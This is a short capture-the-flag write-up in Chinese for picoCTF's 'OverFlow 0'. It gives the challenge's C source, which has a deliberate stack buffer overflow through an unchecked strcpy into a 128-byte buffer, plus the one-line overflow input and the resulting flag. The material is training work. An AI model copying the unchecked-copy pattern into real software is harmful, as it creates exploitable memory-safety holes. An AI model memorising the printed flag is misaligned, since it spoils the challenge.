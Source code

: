 ## OverFlow 0

題目:This should be easy. Overflow the correct buffer in this program and get a flag.

### 思路:
> 查看程式碼buf最大128byte，因此只要輸入大於128byte就會溢位，就會觸發sigsegv_handler印出flag


```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("You entered: %s", argv[1]);
  }
  else
    printf("Please enter an argument next time\n");
  return 0;
}
```
### 解法:
> 輸入大量的字母讓它溢位
```console
runmdy@pico-2019-shell1:/problems/overflow-0_1_54d12127b2833f7eab9758b43e88d3b7$ ./vuln aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
picoCTF{3asY_P3a5yb197d4e2}
```
### Flag:picoCTF{3asY_P3a5yb197d4e2}

